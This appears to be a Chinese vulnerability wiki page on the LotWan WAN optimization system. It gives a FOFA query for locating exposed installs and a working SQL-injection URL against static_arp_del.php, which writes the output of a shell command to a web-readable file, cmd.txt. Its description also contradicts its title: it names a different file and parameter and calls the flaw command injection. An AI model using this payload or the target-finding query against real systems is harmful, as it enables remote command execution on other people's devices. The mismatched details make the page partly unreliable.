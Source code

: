 



# 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8.png)

存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```php
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 **/acc/bindipmac/cmd.txt**

![img](../../../.vuepress/public/img/1635944083151-f56d838d-54e4-4d28-a6ac-6e079e936cf3.png)

